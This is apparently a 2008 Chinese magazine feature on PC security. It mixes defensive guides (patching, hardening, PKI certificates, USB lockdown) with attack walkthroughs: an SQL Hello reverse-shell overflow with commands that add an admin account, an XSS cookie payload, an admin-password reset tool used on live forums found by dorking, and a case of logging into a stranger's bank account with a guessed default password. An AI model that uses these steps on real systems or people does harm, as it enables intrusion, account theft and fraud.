除了上述查看工具，还可以利用系统防护工具，继续对系统进行清理。例如，通过【安全环境】按钮，程序会关闭一切不必要的程序，来获得干净的系统环境。某些木马会破坏安全模式的键值导致无法进入安全模式，单击【工具】菜单下的【修复安全模式】选项，本功能可以先备份当前安全模式键值，再恢复默认的安全模式键值。手工清理完毕，还可以执行【清理临时文件】、【清理IE临时文件】、【清除Autorun.inf】等工具，清理Autorun.inf加载的木马及清理已确定的病毒木马文件等，以达到更好的清理效果。

## 二、系统漏洞攻防专题

现实生活中，网络应用越来越复杂，利用浏览器、网站插件、代码等方面的漏洞进行攻击的事件也愈演愈烈，甚至被有心人士用来窃取顾客的私人信息。一般来说，漏洞的威胁类型基本上决定了它的严重性，很多公司在公布安全漏洞的危险等级时，把严重性分成高、中、低三个级别，再提示用户根据具体的情况，要采取程度不同的防范措施。漏洞形成的主要原因有：远程管理员权限、本地管理员权限和普通用户访问权限；权限提升；读取受限文件；远程拒绝服务、本地拒绝服务和远程非授权文件存取；口令恢复；欺骗；服务器信息泄露；其他如访问验证错误、设计错误、输入验证错误、意外情况处置错误、环境错误、配置错误等。看了这些分类之后，当我们看到网络上列举的漏洞时，就可以给它们对号入座了。

### 1. 2008常见漏洞分析

漏洞即某个程序（包括操作系统）在设计时未考虑周全，当程序遇到一个看似合理但实际无法处理的问题时，引发的不可预见的错误。漏洞产生的原因主要是：编程人员有意在程序的隐蔽处留下各种各样的后门；由于编程人员的水平、经验和当时的安全加密技术所限制。

从本年度漏洞发展情况来看，主要包含了以下漏洞：

| 名称 | 描述 | 漏洞危害 |
| --- | --- | --- |
| MS08-001 | Windows TCP/IP实现IGMP及MLD报文远程溢出漏洞 | 可能在内核中执行任意指令 |
| MS08-002 | Windows LSASS LPC请求本地权限提升漏洞 | 可能获得SYSTEM权限并执行任意指令 |
| MS08-007 | Windows WebDAV Mini-Redirector远程堆溢出漏洞 | 可能以特权身份执行任意指令 |
| MS08-006 | Microsoft IIS ASP远程代码执行漏洞 | 可能以Network Service权限执行任意指令 |
| MS08-014 | Microsoft Excel多个远程代码执行漏洞 | 可能以浏览者身份执行任意指令 |
| MS08-016 | Microsoft Office单元格标注解析内存破坏漏洞 | 可能以浏览者身份执行任意指令 |
| MS08-021 | Windows GDI文件名解析栈溢出漏洞 | 可能以浏览者身份执行任意指令 |
| MS08-022 | Microsoft VBScript和JScript脚本引擎远程溢出漏洞 | 可能以引擎调用者身份执行任意指令 |
| MS08-021 | Windows GDI文件名解析栈溢出漏洞 | 可能以浏览者身份执行任意指令 |
| MS08-031 | Microsoft IE HTML对象substringData()堆溢出漏洞 | 可能以浏览者身份执行任意代码 |
| MS08-046 | Microsoft Windows图形颜色管理组件堆溢出漏洞 | 可能以浏览者身份执行任意代码 |
| MS08-042 | Microsoft Word智能标签无效长度处理内存破坏漏洞 | 可利用该漏洞以浏览者身份执行任意代码 |
| MS08-052 | Windows GDI+中的漏洞 | 可能允许远程执行代码 |
| MS08-053 | Windows Media Encoder9中的漏洞 | 可能允许远程执行代码 |
| MS08-054 | Windows Media Player中的漏洞 | 可能允许远程执行代码 |
| MS08-055 | Microsoft Office中的漏洞 | 可能允许远程执行代码 |

### 小知识：

Windows系统补丁分为2类，即SP（Service Pack）和HotFixes。SP是补丁包的缩写。Hotfix是针对某一个具体的系统漏洞或安全问题而发布的专门解决该漏洞或安全问题的小程序，通常称为修补程序。如最近比较流行的MS08-053，其中，MS是微软的英文缩写，08代表2008年，053代表该安全公告的编号，合起来就是微软公司在2008年发布的第53个安全公告。

按漏洞可能对系统造成的直接威胁，大致可以分成以下几类。

- (1) 远程管理员权限、本地管理员权限和普通用户访问权限
  远程管理员权限漏洞绝大部分来源于缓冲区溢出，少部分来源于守护进程本身的逻辑缺陷。本地管理员权限是在已有一个本地账号能够登录到系统的情况下，通过攻击本地某些有缺陷的程序，得到系统的管理员权限。普通用户访问权限漏洞中，普通用户取得系统的普通用户存取权限，对UNIX类系统通常是shell访问权限，对Windows系统通常是cmd.exe的访问权限，能够以一般用户的身份执行程序、存取文件。

- (2) 权限提升
  攻击者在本地通过攻击某些有缺陷的sgid程序，把自己的权限提升到某个非root用户的水平。获得管理员权限可以看作是一种特殊的权限提升，只是因为威胁的大小不同而把它独立出来。

- (3) 读取受限文件
  攻击者通过利用某些漏洞，读取系统中他应该没有权限的文件，这些文件通常是与安全相关的。这些漏洞的存在可能是文件设置权限不正确，或者是特权进程对文件的不正确处理和意外dump core使受限文件的一部分dump到了core文件中。

- (4) 远程拒绝服务、本地拒绝服务和远程非授权文件存取
  远程拒绝服务漏洞通常是系统本身或其守护进程有缺陷或设置不正确造成的。本地拒绝服务漏洞主要是因为程序对意外情况的处理失误，如写临时文件之前不检查文件是否存在、盲目跟随链接等。远程非授权文件存取主要是由一些有缺陷的cgi程序引起的，它们对用户输入没有做适当的合法性检查，使攻击者通过构造特别的输入获得对文件对存取。

- (5) 口令恢复
  因为采用了很弱的口令加密方式，使攻击者可以很容易地分析出口令的加密方法，从而使攻击者通过某种方法得到密码后还原出明文来。

- (6) 欺骗
  利用这类漏洞，攻击者可以对目标系统实施某种形式的欺骗。这通常是由于系统的实现上存在某些缺陷。如Windows IE曾经存在一个漏洞允许一个恶意网络在另一个网站的窗口内插入内容，从而欺骗用户输入敏感数据。

- (7) 服务器信息泄露漏洞
  利用这类漏洞，攻击者可以收集到对于进一步攻击系统有用的信息。这类漏洞的产生主要是因为系统程序有缺陷，一般是对错误的不正确处理。

- (8) 其他
  如访问验证错误漏洞、设计错误漏洞、输入验证错误漏洞、意外情况处置错误漏洞、环境错误漏洞、竞争条件漏洞、配置错误漏洞等。

### 2. 漏洞检测及防范实用技术

扫描技术可以检测目标系统是否同互联网连接、所提供的网络服务类型等等。平时，使用比较多的扫描工具有Nmap、SuperScan、流光、X-Scan等。此外，许多杀毒软件也提供了丰富的漏洞检测功能，如瑞星、金山毒霸、360安全卫士等。以360安全卫士为例，打开软件后，点击“修复系统漏洞”选项卡，软件就会对当前系统的“待修复漏洞”和“已修复漏洞”进行检测，单击其中的“查看并修复漏洞”，即可了解系统当前漏洞状况。如图8所示。

对于局域网的网管员来说，除了要争取在第一时间为自己管辖的所有服务器升级外，还要为客户端下载适用于多种平台、多种语言环境的补丁包，之后还要检验这些补丁包是否都升级到位。往往一个补丁还未处理完毕，另一补丁又来了，麻烦程度可想而知，如果要防范漏洞，必须首先从局域网内部开始。微软推出的SUS（Software Update Services）服务可以帮助我们解决这个问题。此外，还应遵循如下原则：

- (1) 停止不必要的服务
  在进行系统的设置时，虽然打开很多服务可以给管理带来方便，但如果对当前的服务不了解，最好关掉，以免给系统带来灾难。具体方法是：进入控制面板的“管理工具”，运行“服务”，进入服务界面，双击右侧列表中需要禁用的服务，在打开的服务属性的常规标签页“启动类型”一栏，选择“已禁用”，单击“确定”按钮即可。

- (2) 卸载不必要的协议
  对于服务器和主机来说，在配置系统协议时，一般只安装TCP/IP协议就够了。右键单击“网络邻居”，选择“属性”，双击“本地连接”，选择“属性”，卸载不必要的协议。NETBIOS是很多安全缺陷的源泉，对于不需要提供文件和打印共享的主机，还可以将绑定在TCP/IP协议的NETBIOS给关闭，避免针对NETBIOS的攻击。选择[TCP/IP协议]→[属性]→[高级]，进入“高级TCP/IP设置”对话框，选择“WINS”标签，勾选“禁用TCP/IP上的NETBIOS”一项，关闭NETBIOS。

- (3) 关闭不必要的端口
  端口是计算机和外部网络相连的逻辑接口，也是计算机的第一道屏障，所以端口配置正确与否直接影响到我们主机的安全。对于那些我们根本用不着的功能，就没必要将端口打开了。如可以关闭137、138、139和445端口。

### 3. 典型案例：溢出漏洞及其防范方法

现在，漏洞攻击工具和漏洞攻击手段越来越高明。溢出攻击是目前很常见的一种攻击方式了，如利用IIS5.0的.printer溢出漏洞攻击、LSD RPC溢出漏洞攻击、利用ida/.idq缓冲区溢出的漏洞攻击、PRINTER缓冲区漏洞攻击、利用Frontpage扩展缓冲区溢出漏洞攻击等，五花八门的溢出攻击对服务器的安全造成了十分重要的影响。一般来说，它可以分为远程溢出和本地溢出。远程溢出是在本地机器上运行远程溢出程序，通过提交畸形代码，获得远程主机系统权限。下面，我们以SQL Hello Exploit溢出实例进行讲解。这个漏洞被发现的时间比较早，但是，在今天仍然有很多主机都存在类似的漏洞，不过此漏洞只对MSSQL SP2以下版本有效。

第1步：寻找溢出漏洞主机
可以通过VenusDLGScanner.exe扫描主机的1433端口来探测。这款工具可以扫描某个网段的MSSQL服务器及其版本，软件使用很简单，是一个完全傻瓜化的工具，简直是为这个漏洞定做的。

第2步：准备溢出测试工具
看看存在漏洞的主机有几个，然后选择溢出程序对这些主机进行溢出攻击。现在，针对MSSQL主机的溢出程序有两个版本，分别是sqlhello2.exe和qhello.exe。其中，前者是正向溢出工具，后者是反向溢出工具。sqlhello2.exe正向溢出的命令是：
sqlhello2.exe 攻击IP 1433
现在，利用sqlhello.exe溢出后正向连接。没有防火墙的话，sqlhello2.exe的成功率比sqlhello.exe大，打开命令提示行窗口，输入如下命令：
sqlhello2.exe 203.207.***.*** 1433
如果溢出成功，命令提示行窗口就会变成“C:\winnt\system32>”。不过，现在大部分的服务器都安装了防火墙，所以正向连接的可能性比较小。如果不能连接，可以考虑使用反向连接方式，继续下一步。

第3步：连接测试
重新打开一个命令提示行窗口，使用nc.exe工具监听一个端口。在另外一个命令提示行窗口中，使用反向连接工具进行连接测试。通过和nc.exe工具配合使用，sqlhello.exe可以穿透部分防火墙。sqlhello.exe反向溢出命令是：
sqlhello.exe 攻击IP 1433 自己的IP 自己监听端口
需要注意的是，反向溢出时，本机IP地址要和攻击目标的地址在同一个级别。也就是说，要么都是公网地址，要么都是局域网地址。测试提示一般为：
SQL Hello Exploit – Remote Shell Callback by ‘JoePub
Exploit Choosen: SQL Hello Overflow
Inject Vector Size: 619
Code Size: 828
Data Size: 259
Exploit Size: 1706

如果现在命令提示行变成了“C:\winnt\system32>”，就可以进行管理员操作，并进行用户设置了。典型的操作命令如下：
net user test "123456" /add 表示添加一个test帐户，密码为123456
net localgroup administrators test /add 表示将test帐户添加到管理员组
net user 表示查看帐户
可以看出，对Windows系统通常是cmd.exe的访问权限，现在，拥有系统权限之后，也可以利用tftp上传一个木马后门，随心所欲地执行一些木马操作了。现在，很多漏洞刚刚出现，就有高手公布了溢出攻击程序。所以，现在黑客利用溢出漏洞的技术要求也越来越低了。

下面从防范的角度来分析一下。利用溢出攻击虽然开心，但是网管可就惨了。虽然打补丁是个有效的办法，但有时候补丁来得并不比漏洞利用工具及时。所以，“亡羊补牢”，给cmd.exe设置权限应该是比较有效地防止溢出的办法了。
第1招：建立一个用户test，当然，可以取个比较有个性的名字，并加个$前缀符号。最好是USER等级的。建立了用户后，来到c:\winnt\system32。找到cmd.exe，用右键打开“属性”，在“安全”选项卡中，把所有的用户删除，然后添加test这个用户。同时，还要找到net.exe和net1.exe，按照cmd.exe的方法来设置。

第2招：考虑到攻击者可能会使用ftp工具传输本地溢出程序或者木马，进入C:\WINNT\system32\drivers\etc，打开services这个文件，把tftp这个端口修改为0。这样，攻击者就不会通过使用tftp来达到传输自己的工具。当然，为了获得更好的安全性，我们可以把tftp.exe这个文件按照cmd.exe那样进行设置，只有test这个用户才可以使用。

### 1. 来势汹汹的跨站攻击技术

在网络技术快速发展的2008年，针对传统Web系统的漏洞攻击依然十分盛行，从跨站、注入到暴露等漏洞依然十分盛行。跨站攻击（Cross Site Script），指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。一般情况下，跨站攻击分成两类，一类是来自内部的攻击，主要指的是利用程序自身的漏洞，构造跨站语句；另一类则是来自外部的攻击，主要指攻击者构造跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。

以大家熟悉的Sogou网站为例，在搜索的过程中即面临着各方面的威胁，如跨站攻击XSS，这是一种经常出现在Web应用中的计算机安全漏洞，通过利用Web页面编写不完善的问题，它允许恶意Web用户将代码植入到提供给其它用户使用的页面中。这样，在<TITLE>标签的过滤时可能会存在问题。测试代码如下：采用类似的方法，还可以暴露cookies参数，测试代码如下：

```
<TITLE><script>alert(document.cookie)</script></TITLE>
```

测试结果如图9所示。



此外，通过对免费代码的集中测试，我们还发现，许多系统的代码具有惊人的相似性，一旦某个系统漏洞爆发后，其他系统也纷纷“殃及池鱼”，这也成为本年度许多网站频频被攻击的重要原因之一。所以，在使用这些代码时，设计者需要仔细分析代码，寻找其中存在的漏洞或攻击隐患，以避免遭受更大的损失。

## 2. 预防网页浏览中的“陷阱”

恶意站点陷阱的常见形式有：修改默认链接首页，修改IE浏览器右键菜单，在启动Windows时弹出一个窗口，修改IE默认搜索引擎，禁用注册表等。要真正预防落入这些陷阱，还须掌握一些防范技巧。可以从以下几个方面着手防范：

- (1) 安装杀毒软件和网络保护软件时设置监控功能，并予以拦截
- (2) 升级浏览器版本
- (3) 将ActiveX插件和控件、Java脚本等全部禁止
- (4) 不要去轻易去一些自己并不了解的站点
- (5) 升级WSH

## 3. 典型案例：寻找PHPwind论坛的漏洞

PHPwind是一个论坛程序，采用它做论坛的网站很多。本文所列举的例子在于，从数据库读取的变量出现问题，导致可以更改一些数据处理过程，使得可以任意修改其他用户的密码。由于该程序是开源程序，所以，用户很容易就能从http://www.phpwind.net/网站下载论坛代码。

论坛的漏洞出现在wap_mod.php页面。寻找目标之前，首先打开Google网站，输入关键词“Powered by Phpwind V5”或者“Powered by Phpwind V4”，随便搜索即可寻找大量的类似网站。找到相关站点后，在论坛的根目录加上以下地址：wap/index.php，简单测试该站点的wap功能是否开启。如果无法找到该页，表明这个功能没有被启用。在本例中，找到一个测试站点：http://www.ad*k.com/bbs/wap/index.php，系统提示下载文件，表明该站点存在漏洞。

分析这个漏洞之前，需要一个工具的配合，软件名称为：PhpwindWapExp.exe，这是一个叫CXTeam的组织编写的，网络上还有该程序的VBS版。打开软件后，在“URL”后输入目标网址，“UID”就是所要修改密码用户的ID，管理员的UID一般都是“1”。当然，也可以通过用户列表查找到管理员和他的UID。在软件最下方有一个信息返回框，里面会返回一些网站的回复信息。通过分析，得知该站点的网站管理员ID为“3”。如图10所示。

在PhpwindWapExp中填好相关参数，点击“Do it”按钮，程序马上开始工作，当弹出“Attack Success”的提示信息时，表明已经成功修改了该站点的管理员密码。利用此密码，即可轻松进入网站后台，此站点的安全性就让人担忧了。



多用户的青睐。在认证过程中，只要输入身份证和网银账号，支付宝向网银帐户中输入一定的金额，用户确认后即可完成认证。但是，前段时间很多论坛都有出售大批已经认证的支付宝ID的帖子，让人很奇怪这些帐户是怎么来的。难道真的是有Photoshop高手修改了身份证，然后去银行办理了N个帐户来认证？或者说，他们是猜测支付宝向银行打入的款项来认证？如图11所示。



几番努力，找到了一位卖家提供的ID，帐户姓名为张三。首先登录卖家提供的邮箱，看看能获取什么信息。打开邮箱后发现，卖家进行了多次查询认证，并有一次失败认证记录。随后的一次就成功了，难道第一次没有猜测成功，第二次才成功？这个几率太高了吧？信箱中没有找到可以利用的信息。那么，查看其他资料呢？试着在百度中搜索“张三”这个名字，不过结果并不让人满意，同名同姓的太多了，犹如大海捞针。陷入困境之时，突然想起卖家还提供了“张三”的身份证号码！以身份证作为关键词搜索，意外发现了两个Excel电子表格。下载后发现，这是某大学发放奖学金的公示，表格内包含了序号、学生姓名、身份证号码、院系专业、学号、银行卡号，个人信息就这么被赤裸裸地放到了网上。

现在分析一下，既然已经得到了以下内容：姓名、对应的身份证号和银行账户，完成支付宝认证还差什么呢？网银密码！只要有了网银密码，就可以通过查询支付宝打入的金额来完成认证。在这份文件中，发现了一个很有趣的事情，很多部门喜欢把包含姓名+身份证等信息的资料放到网上。因此，打开文件搜索网址：http://file.baidu.com，输入关键词“姓名身份证号”，到百度中搜索，发现了大批的电子表格文件。通过快车，很快就得到了这些信息资料。随便打开几个，从学生姓名到家庭住址、身份证号码、学号、专业、电话等，一应俱全。如图12所示。



事情到这一步似乎还没什么进展，根据银行账号的连续性，可以猜测这些账户应该是新生入学时，学校统一办理的。而银行为了方便开户，大都设置为666666、888888、123456等密码，或者使用学号、身份证号前六位、手机号等。按照这种思路，我试着登录了一个农行卡号，居然成功了。之所以选择农行卡号，源于它的电子支付卡功能。关于此功能，可以到农行网站了解详细信息。简单而言，支付卡就是在网上可以申请的网银功能。不过没有印在实物上的CVD2码，是无法申请到电子支付卡的，而猜测3位CVD2成功的可能性更是微乎其微，何况输错几次CVD2码就要被封卡了，暴力破解的可能性更是几乎不存在。而其他银行的网银因为没有口令卡或者U盾等支付工具，破解也就无从说起。

现在，认证一个支付卡几乎是水到渠成。通过查询历史交易记录，可以发现在前几个月的时间里，支付宝公司已经向卡内打入了少量的金额。由此可见，那些出售支付宝ID的卖家，通过在网络收集个人资料，然后大量注册支付宝ID，然后通过批量办理卡默认的密码登录网银，查看支付宝公司打入的金额来完成支付宝认证过程。这其中不涉及什么高深的技术，主要是社会工程学方面的知识。其根源在于学校网络管理的安全性欠缺，导致个人信息泄露，被人利用。让人欣慰的是，农行于2008年7月11日取消了电子支付卡服务，需要此功能的客户则要去柜台办理一次。同时，支付宝公司也加强了账户的监督，安全性也得到了一定的提高。

结合这个案例，我们对入侵者获得密码的方式进行了归纳，主要有：
- (1) 监听明文口令信息
大量的通讯协议比如Telnet、Ftp、基本HTTP都使用明文口令，这意味着它们在网络上是赤裸裸地以未加密格式传输于服务器端和客户端，而入侵者只需使用协议分析器就能查看到这些信息，从而进一步分析出口令。
- (2) 监听加密口令信息
更多的通讯协议是使用加密信息传输口令的。这时，入侵者就需要借助字典或者采用暴力攻击法来解密了。
- (3) 重放攻击 (Replay attack)
这也是一种间接的攻击方式，入侵者不必对口令进行解密，需要的是重新编写客户端软件以使用加密口令实现系统登录。
- (4) 窃取口令文件
口令文件通常都保存在一个单独的文件中，入侵者一旦获取了口令文件，就可以使用破解程序发现其中的弱口令信息。
- (5) 观察
用户可能由于设置的口令复杂难记而将它写在一张纸上压在键盘下随时查看，或者在输入口令的时候不管身后有没有站着一位“看客”。入侵者的搜索力与记忆力都非常好，这些操作习惯对他们来说简直就是轻松练兵。所以，别忽视入侵者的眼睛！
- (6) 社会工程
是指采用非隐蔽方法盗用非授权账户进行的非法活动，比如，上述窃取支付宝账号的过程，就是运用了许多社会工程学原理。

## 2. 窃听技术和账户密码安全

首先，我们来看看窃听技术的应用情况。窃听技术是攻击者通过非法手段对系统活动的监视从而获得一些安全关键信息。目前属于窃听技术的流行攻击方法有键击记录器、网络监听、非法访问数据和攫取密码文件。首先是键击记录器，通常需要有一个键盘设备驱动程序，它能够把每次键击都记录下来，存放到攻击者指定的隐藏的本地文件中。其次是网络监听，通过设置网卡的混杂（promiscuous）模式获得网络上所有的数据包，并从中抽取安全关键信息，如明文方式传输的口令。再次是非法访问数据和盗取密码文件，这是指攻击者或内部人员违反安全策略对其访问权限之外的数据进行非法访问或盗取密码文件。

以MSN登录信息的窃听过程为例。一般来说，用户微机上的程序统称为MSN Messenger“客户端”，它通过Internet连接到一个MSN Messenger“服务器”。也就是说，客户端通过服务器与其他客户端交互信息。在大多数时间里，用户的客户端与服务器会话，然后由服务器来处理这些会话信息并通知其他人。了解之前，我们使用Sniffer NT来截获登录时的数据。从截获的登录数据中，我们可以看到，在“数据”一栏中，有很多类似CVR、VER、USR等开头的数据，登录连接时还用到了TCP/1863和TCP/443这两个端口，它们记录了MSN Messenger登录的整个过程。客户端与服务器间信息都是以命令格式传递的。命令被描述为三个字符、所有字母大写的命令代号。所有一般命令都有一个事务ID并且以新行结束。看到“CVR 146 0x0804 winnt 5.0 i386 MSNMSGR 7.0.0777 msmsgs cntest2005@hotmail.com”时就可以知道，现在客户端正发出OS、语言、MSN Messenger版本等信息。登录后，我们还可以了解在线用户的一些信息。通过进一步挖掘，即可探测许多有关该账号的机密信息。

其次，就是比较常见的密码破解技术了。对于许多攻击者来说，破解操作系统中的原有账户和密码后，并不对其进行更改，这是“留后门”的理想方法之一。要达到这种效果，就需要有效率更高的软件。除了LC（L0pht Crack），这里还将介绍本年度比较流行的AWPR（Advanced Windows Password Recovery），该软件的使用范围包括：进入系统时的密码、屏幕保护程序密码、上网及拨号的密码甚至其它的共享资源的密码等。不过，AWPR最突出的功能在于：在Windows NT/2000/XP/2003等系统下，能够快速获取本地电脑大多数系统账户的密码。安装该软件后，有关该软件的使用步骤和技巧如下：

- **第1步：设置字典，对该软件破解进行设置**
单击【Options】→【NT hash options】，在弹出的界面中即可对系统账户密码破解中的项目或者过程进行设置。包括：设置参与测试的字符、选择测试字典等。
- **第2步：破解测试**
单击【Main Menu】→【Recovered hashes】，软件就会按照默认设置自动获取本地所有系统账户密码的hash值，并能够快速进行破解。破解完毕，在列表中单击右键，选择【Save list to file】，在弹出的对话框中输入文件名并保存。打开该文件，即可看到详细信息，包括用户名、ID、密码、描述和提示等。

值得注意的是，开发AWPR的公司软件公司ElcomSoft在密码破解领域小有名气，他们开发的其他密码破解产品能够轻松破解RAR、ZIP、ARJ、Microsoft Office、PDF等文件的密码。

## 3. 典型案例：PKI技术与网络安全应用

传统的数据传输通常采用用户名和口令进行身份鉴别，这种方式的弊端有很多，主要表现在以下方面：（1）用户身份认证需要加强。（2）数据机密性及精确的文件访问难以保证。（3）双方交易的不可抵赖性。（4）数据的完整性。很显然，传统的数据传输机制还存在很大问题。要保证网上数字信息的传输安全，除了在通信传输中采用更强的加密算法等措施之外，还必须建立一种信任及信任验证机制，使不同的用户拥有合适的访问权限。

通过对2008年安全状况的进一步考察，PKI（Public Key Infrastructure）技术在淘宝等电子商务站点、招商银行等银行站点开始得到了更加广泛的应用。PKI（Public Key Infrastructure）是面向大型网络应用环境的公开密钥管理机制，它有效地解决了加密技术、数字签名技术、认证技术等问题，其基本组成部分一般包括：认证机关CA（Certification Authority）、证书库、密钥备份及恢复系统、证书作废处理系统、客户端证书处理系统等。数字证书（Digital Certificate）由CA根据X.509协议产生，它所包含的信息有：版本号、序列号、签名算法、发出该证书的认证机构、有效期限、主题信息、公钥信息以及认证机构的数字签名等。

为了加深用户的理解，下面以淘宝（http://www.taobao.com）所使用的“支付宝”数字证书为例，通过灵活而简单的讲解，提高用户的安全意识。步骤如下：

- **第1步：登录支付宝（http://www.alipay.com）网站**
在支付宝中，通过设置支付宝账户的安全保护、绑定手机短信、申请认证及数字证书等操作，可以确保账户和资金安全。使用之前，用户需要注册一个支付宝账户。通过该账户，用户能够完成以下日常操作：给账户充值、查询账户收支明细、将账户金额提取到银行账户、管理账户个人信息等。
- **第2步：申请数字证书**
登录支付宝后，单击【安全中心】→【数字证书】栏目，然后点击【点此申请数字证书】按钮图标，即可申请数字证书。申请时，首先要进行安全验证，输入身份证件号码、设置安全问题后，系统会提示填写证书的使用地点，以方便用户日后远程管理证书时能清楚辨别证书的使用地点。
- **第3步：备份数字证书**
申请完毕，点击【备份】按钮以备份数字证书，可以把数字证书保存到移动硬盘、U盘，或备份到电脑其他非系统盘上。备份数字证书时，首先使用数字证书登录支付宝，从【安全中心】→【数字证书管理】，选择【备份数字证书】即可完成数字证书的备份。备份时，一定要牢记保护密码。操作完毕，会生成一个“XXXXX.pfx”文件，该文件就是数字证书的备份。
- **第4步：导入数字证书**
如果在另外一台机器上使用数字证书，就需要导入已经备份的数字证书了。导入证书时，首先进入数字证书管理界面，选择证书备份文件并输入密码，然后单击【导入】按钮。这时，证书助手会提示是否导入。导入后，为了加强安全性检查，系统还会提示进行安全校验。完成上述步骤，即可在本地机器成功安装数字证书。
- **第5步：管理数字证书**
成功安装数字证书后，即可进行多种网络交易操作，如买入交易、卖出交易、付款、发货、确认收货、退款交易、红包、充值等。需要进行证书管理时，单击【我的支付宝】→【管理证书】，即可方便地进行查看证书、备份证书、删除本地证书、申请注销证书等操作。如图13所示。

总之，在网络安全日益严峻的形势下，使用更加可靠的安全认证技术必将成为当前网络交易的新趋势。在网络炒股、电子商务、网络银行、网络办公等场合中，PKI认证技术和数字证书也将发挥越来越重要的作用。
可见，在日常生活中，普通用户也要逐步理解网络安全管理的技术思路，在整体安全系统中找到自身的定位。比如，攻击者是如何进入我的电脑的？攻击者在被入侵的电脑上如何使用攻击工具？例如，很多攻击者喜欢在被入侵服务器上安装FTP软件或者开放FTP服务，盗取对方数据，甚至利用对方服务器传播恶意病毒；聪明的攻击者甚至考虑了如何清除自己留下的蛛丝马迹。“知己知彼，百战不殆”，本文所列举的一些最新攻击手法就体现了这些特点。因此，必须从更大范围、更多视角来考虑这些问题，从而打造一个更加安全的防范体系。



## 为账号请个保镖 —— 360保险箱为账户保驾护航

◆文/TMG zj

在这个网络迅速走红的年代，虚拟的网络成为越来越多人的休闲娱乐工具，所以网络游戏账号、QQ密码、网络银行账号密码等也就自然成为了个人的隐私，可是总会有某些主客观原因时时威胁甚至侵害你的隐私，这时你就需要为你的电脑安装一个保险箱，为个人隐私信息保驾护航。所以我们建议：在安装360安全卫士的同时安装360保险箱，让你的电脑再没有后顾之忧。
软件名称：奇虎360保险箱V2.0.0.1011正式版
下载网址：http://www.skycn.com/soft/38592.html

### 一、将电脑装进保险箱——软件的安装

- 第一步：安装。使用安装向导，单击“下一步”进入安装程序。
- 第二步：安装位置。“浏览”目标文件夹选择软件安装的位置（因为一般C盘为系统盘，所以一般安装在除C盘外的任何盘），然后单击“安装”。
- 第三步：运行。安装后，单击“完成”，运行360保险箱。

### 二、给保险箱上“密码”——软件的设置与管理

#### 1.保护功能

##### （1）账号保护

网络游戏
单击“保护”按钮，选择“账户保护”选项卡，软件会对这些游戏软件实行安全模式启动，保证你游戏账号的安全。
如果你要进行安全保护的游戏不在被列出的名单之内，你可以单击“自定义添加软件”进行添加，在这里不仅可以进行添加，也可以进行移除。

聊天工具
单击程序图标或者安全启动按钮，软件会对此聊天工具以安全模式启动，让你的聊天账号得到保障。

网络银行/股票证券
与上述网络游戏、聊天工具的设置以及软件的添加、移除是一样的，请参考以上。

##### （2）保护360

单击“保护360”，选择“已开启”，开启保护功能。在这里需要说明的是：必须电脑安装360安全卫士才能在这里开启保护。

##### （3）正在保护

单击“正在保护”，此面板显示的是你在“账号保护”中选定需要进行保护的软件正在接受保护的目录，如果你需要结束进程也可以选择后单击“结束选中进程”。

##### （4）保护历史

单击“保护历史”选项卡，这里显示的是你选择的保护软件受保护的历史记录。

#### 2.设置

##### （1）保护设置

单击“保护设置”选项卡，开启软件自我保护功能。根据自己的需要选择启动位置和警报提醒方式。

##### （2）安全扫描设置

选择使用环境，设置扫描时间，单击“保存设置”。

##### （3）黑名单设置

在这里可以添加和移除禁止的程序。

##### （4）白名单设置

依照黑名单设置操作，这里不多作介绍。

## 实用为上 USB 的安全实用技巧

USB—通用串行总线，非常流行的接口。很多的设备都使用这种接口，如移动硬盘、U盘、鼠标、键盘、手机连接器等。不过，USB设备如此盛行，同时也带来了一个安全性的问题。在隐私权日益被重视的情况下，我们必须对这个问题予以重视。同时，为了防止病毒传播或资料外泄，很多网吧、学校和公司的电脑都采取不安装软驱、光驱的方法来预防。但是USB移动存储的出现使病毒传播或资料外泄更难以防范，这一直是管理员头疼的事情。本文给大家一些招数。

### 一、BIOS取消法

BIOS提供了最基本的硬件输入输出功能，同时也可以控制硬件，利用它可以锁定电脑上的USB设备。我们可以重新启动计算机，并按下相应的热键进入BIOS（如Del）。选择SET SUPERVISOR PASSWORD（设置超级管理员密码）设置好BIOS密码。按下Esc键返回到BIOS设置主画面，再选择“Integrated Peripherals”选项，展开后将“USB 1.1 Controller”和“USB 2.0 Controller”选项的属性设置为“Disabled”，即可禁用USB接口。按下F10键，保存BIOS设置并退出，重新启动电脑。

以后，启动电脑，你会发现机器上的USB口将不可用，甚至Windows都无法发现它。当你再想使用它时，重新启动电脑，并在启动时按Del键，输入SUPERVISOR密码，在相应的菜单，将其选择为Enabled。按下F10键，保存修改，重新启动系统即可。

- ★不同的BIOS有不同的进入方法，通常会在开机画面有提示：Award BIOS按Del键、AMI BIOS按下Del或Esc键、Phoenix BIOS按下F2键，具体请参照品牌机的说明书。
★本例是以锁住USB接口为例介绍的，其实要锁住其他设备也是可以的。这样，我们就可以锁住诸如打印口、串口，甚至是IDE设备。

### 二、禁止设备法

首先打开“设备管理器”，再找到“通用串行总线控制器”，右击“USB Root Hub”，将其设置为“停用”（如图1）。然后右击桌面“我的电脑”，选择“管理”，再打开“计算机系统管理（本地）”→“系统工具”→“本地用户和组”→“用户”。右击，选择“新用户”命令（如图2），在此新建一个用户，我们只要按照提示即可生成一个只有User权限的用户。

我们只告诉别人User权限的用户名和密码，别人以此用户登录机器，由于没有管理员权限，所以无法启用设备。这样，也可以达到“软锁定”的效果。如果你还想使用该设备，只要重新以Administrator登录，再调出“设备管理器”窗口，右击USB Root Hub，选择“启用”命令即可。





### 三、禁止USB设备



在“运行”对话框中输入“regedit”，回车后，打开注册表编辑器，依次展开如下分支[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR]，在右侧的窗格中找到名为“Start”的DWORD值，双击，在弹出的编辑对话框中将其数值数据修改为十六进制数值“4”（如图3）。点“确定”按钮并关闭注册表编辑器，重新启动计算机，使设置生效。

### 四、Windows Vista中如何禁止

先在Windows Vista中插上所有USB接口的设备，如U盘、移动硬盘等，如果是第一次插入，会自动安装驱动程序。之后，进入C:\Windows\System32\DriverStore文件夹，将FileRepository文件夹直接删除掉。以后，插入我们先前未插入过的USB设备时，系统就一直会提示正在安装驱动程序，而且由于我们已经将保存有驱动程序的C:\Windows\System32\DriverStore\FileRepository文件夹删除掉了，这时无论如何也是安装不上的，所以“外来USB设备”将不可用！

# 为孩子的电脑请个“管家”

◆文/TMG zj

